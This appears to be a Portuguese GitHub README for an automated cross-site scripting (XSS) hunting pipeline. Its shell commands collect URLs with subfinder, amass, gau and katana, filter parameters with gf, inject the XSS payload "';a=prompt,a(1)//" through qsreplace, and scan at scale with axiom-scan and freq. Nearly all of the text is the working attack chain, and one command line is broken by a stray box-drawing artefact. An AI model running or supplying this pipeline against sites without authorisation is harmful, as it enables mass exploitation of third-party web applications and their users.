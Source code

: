 # Xss-Automatizado

1 passo enumerar com subfinder,amass..etc > passar os crawlers como gau,katana,wayback

2 passo cat fuzzable_urls.txt | grep FUZZ | gf xss | grep -iavE 'pdf|txt|\?l=FUZZ$|\?contry=FUZZ$|\?q=FUZZ$|is/image' > filte│···················red_fuzzable_urls.txt  

3 passo cat filtered_fuzzable_urls.txt | qsreplace "';a=prompt,a()//" > fuzz.tmp && axiom-scan fuzz.tmp -m freq | grep -v 'Not'

cat fuzz.tmp | /home/freq | anew XSS2.2

Ordem >>>

- cat 3gau 3katana | grep -aiE '^http' | grep -aiE '\?' | qsreplace FUZZ > fuzzable_urls.txt
- cat fuzzable_urls.txt | grep FUZZ | gf xss | grep -iavE 'pdf|txt|\?l=FUZZ$|\?contry=FUZZ$|\?q=FUZZ$|is/image' > filtered_fuzzable_urls.txt
- cat filtered_fuzzable_urls.txt | qsreplace "';a=prompt,a(1)//" > fuzz.tmp && axiom-scan fuzz.tmp -m freq | grep -v 'Not'
- cat filtered_fuzzable_urls.txt | qsreplace "';a=prompt,a(1)//" > fuzz.tmp                 
- cat fuzz.tmp | /home/freq | anew XSS2.2

